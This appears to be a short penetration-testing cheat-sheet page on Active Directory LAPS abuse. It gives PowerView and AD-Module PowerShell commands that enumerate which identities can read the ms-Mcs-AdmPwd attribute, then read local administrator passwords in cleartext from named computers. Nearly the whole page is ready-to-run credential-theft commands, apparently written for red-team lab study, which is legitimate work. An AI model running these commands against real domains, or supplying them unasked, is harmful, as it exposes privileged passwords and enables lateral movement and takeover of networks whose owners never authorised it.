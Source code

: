 ### Tool

1. Find users who can read the passwords in clear text of machines in OUs:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} 
</strong><strong>
</strong><strong>AD-Module
</strong>Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
C:\AD\Tools\Get-LapsPermissions.ps1

=> IdentityName can read the Passwords on ObjectDN
</code></pre>

2. Get the Passwort in Cleartext

{% code overflow="wrap" %}
```powershell
Get the Computers in the OU first
Get-DomainComputer -SearchBase "LDAP://OU=ouname,DC=sub,DC=dom,DC=local"

PowerView
Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd

AD-Module
Get-ADComputer -Identity hostname-here -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
{% endcode %}

